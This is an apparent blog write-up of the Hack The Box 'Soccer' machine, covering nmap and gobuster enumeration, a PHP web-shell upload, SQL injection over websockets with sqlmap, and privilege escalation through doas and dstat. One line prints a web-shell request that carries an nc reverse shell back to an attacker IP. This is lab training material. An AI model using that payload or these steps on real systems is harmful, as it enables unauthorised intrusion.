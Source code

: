 ```yaml
---
title: "[HTB] Machine: Soccer"
description: "[HTB] Machine: Soccer"
date: 2023-06-07
menu:
  sidebar:
    name: "[HTB] Machine: Soccer"
    identifier: htb-machine-soccer
    parent: htb-machines-linux
    weight: 10
hero: images/soccer.png
tags: ["HTB"]
---
```


# Soccer
## Enumeration
- `nmap`
```
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -p22,80,9091 -sC -sV 10.10.11.194
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-15 11:38 EDT
Nmap scan report for www.soccer.htb (10.10.11.194)
Host is up (0.12s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Mon, 15 May 2023 15:38:17 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Mon, 15 May 2023 15:38:18 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.93%I=7%D=5/15%Time=646251FC%P=x86_64-pc-linux-gnu%r(in
SF:formix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r
SF:\n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x
SF:20close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r\
SF:nContent-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Op
SF:tions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCo
SF:ntent-Length:\x20139\r\nDate:\x20Mon,\x2015\x20May\x202023\x2015:38:17\
SF:x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang
SF:=\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</
SF:head>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(HT
SF:TPOptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Pol
SF:icy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\
SF:r\nDate:\x20Mon,\x2015\x20May\x202023\x2015:38:18\x20GMT\r\nConnection:
SF:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<me
SF:ta\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>C
SF:annot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"HT
SF:TP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-s
SF:rc\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x20
SF:text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Mon,\
SF:x2015\x20May\x202023\x2015:38:18\x20GMT\r\nConnection:\x20close\r\n\r\n
SF:<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"u
SF:tf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS\
SF:x20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%
SF:r(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnect
SF:ion:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.90 seconds
```
- `gobuster`
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/15 11:42:17 Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
Progress: 20713 / 26585 (77.91%)[ERROR] 2023/05/15 11:47:19 [!] parse "http://soccer.htb/error\x1f_log": net/url: invalid control character in URL
Progress: 26570 / 26585 (99.94%)
===============================================================
2023/05/15 11:48:36 Finished
===============================================================

```
- Web Server

![](./images/1.png)

## Foothold
- Let's try default credentials since we know the application running

![](./images/2.png)
![](./images/3.png)

- Let's try uploading file with `php` extension to get `rce`

![](./images/4.png)
![](./images/5.png)

- It seems like there is a cleanup job, that deletes/moves the uploaded files

![](./images/6.png)

- Thus, I tried adding `web shell` to existing files
  - But had no success, because the changes were reverted back

![](./images/7.png)

- So now we have a approximately 1 minute window to upload and get our `reverse shell` before our file gets deleted
  - Prepared payload request beforehand: `GET /tiny/uploads/shell.php?cmd=rm+-f+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.37+6666+>/tmp/f`
  - Upload `php` file and send our request
  - And we get our foothold

![](./images/8.png)
![](./images/9.png)


## User
- Now let's enumerate
  - Let's use `linpeas`
  - Nothing interesting was found, except another `vhost`
  - Let's add it to our `/etc/hosts` and open it

![](./images/10.png)

- Let's check it
  - We see that there are `websockets` involved in ticket input form
  - So I played around with few basic `sqli`, but no success

![](./images/11.png)
![](./images/12.png)

- I can try using `sqlmap` but have no idea how to send requests to `websocket`
  - Luckily there is a great [blog](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) about it
  - Thanks to [rayhan0x01](https://rayhan0x01.github.io)
    - Check his blog out

![](./images/13.png)

- Now we can use `sqlmap`

![](./images/14.png)

- Use the creds dumped by `sqlmap` and we have our user

## Root
- If you ran `linpeas` before, you probably saw `doas` binary
  - If search for it's config, you will find that it has permissions for `player` to run `dstat` as root

![](./images/15.png)
![](./images/19.png)


- Check `GTFOBins`
  - And get your root

![](./images/16.png)
![](./images/17.png)
![](./images/18.png)
